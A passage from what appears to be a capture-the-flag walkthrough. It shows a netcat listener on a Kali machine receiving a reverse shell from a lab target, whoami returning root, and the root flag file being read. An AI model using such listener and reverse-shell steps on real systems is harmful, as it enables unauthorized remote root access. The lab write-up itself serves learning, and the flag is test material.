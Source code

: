 After few moments, we got connection from the target. 

{% highlight text %}
root@kali:~# nc -lvp 1338
listening on [any] 1338 ...
10.0.0.27: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.27] 38640
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls -la
total 40
drwx------  2 root root  4096 Jan 14  2018 .
drwxr-xr-x 22 root root  4096 Jan 13  2018 ..
-rw-r--r--  1 root root     0 Jan 14  2018 .bash_history
-rw-r--r--  1 root root   570 Jan 14  2018 .bashrc
-rw-------  1 root root     0 Jan 14  2018 .mysql_history
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root    76 Jan 14  2018 root.txt
-rw-r--r--  1 root root    74 Jan 14  2018 .selected_editor
-rw-------  1 root root 12736 Jan 14  2018 .viminfo
# cat root.txt
!!!!!CONGRATS YOU GOT ROOT!!!!!

[+] Flag: d6dc7d5b9f99559fc6c91872bc7020af
{% endhighlight %}
